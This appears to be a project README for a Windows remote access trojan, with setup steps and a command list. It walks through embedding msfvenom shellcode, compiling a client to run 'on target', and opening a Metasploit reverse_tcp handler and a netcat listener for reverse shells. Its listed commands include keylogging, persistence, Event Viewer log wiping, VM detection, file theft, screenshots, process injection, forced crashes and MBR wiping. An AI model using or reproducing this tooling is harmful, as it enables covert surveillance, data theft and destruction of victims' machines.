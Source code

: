 # Setup

After cloning the whole project and getting inside of the x64 folder:

1. If you want to be able to use inject64, startcat and the fallback shell, open Client.c and execute the commented msfvenom commands at lines: 63, 64 and 65. (Replace the LHOST/LPORT according to your needs), and then replace the contents of the variables ShellcodeX64, ShellcodeSpawnNetcat, and FallBackShell at lines 67, 70 and 73 with the output of each command. If you also want to abilitate the fallback shell, you must set the variable UseFallBackShell (line 32), to 1.

2. You can generate a new certificate to use if you want (a default one was already provided for ease of use). If you generate a new certificate using Setup.sh, you must copy the contents of public.crt, into the variable 'ServerPublicCertPem' in Client.c:
```bash
cd ..
./Setup.sh cert
```

3. You can now compile. Type:
```bash
./Setup.sh compile
```

4. If everything went correctly, you should now have 4 executables: 2 clients (x64 and x86), and 2 server executables (x64 and x86). If not, there was an error when trying to compile. Make sure you did everything correctly.

5. You can now provide the IP address of the server from both client and server, by passing an argument:
```bash
Server:
	./Server-x64 start 192.168.1.1

Client (On target):
	Client-x64.exe 192.168.1.1
```

6. Before using 'inject64', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST IP
set LPORT PORT
set payload windows/x64/meterpreter/reverse_tcp
run
```

7. If you will be using the fallback shell: Before executing the client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client-x64.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client-x64.exe will crash (the same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

8. All done. Enjoy!

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence5 : Uses hardcoded paths to establish persistence (persistence4 and persistence5 require Administrator privileges)

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject64 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener

startcat : Injects shellcode to connect to a listener running on the server
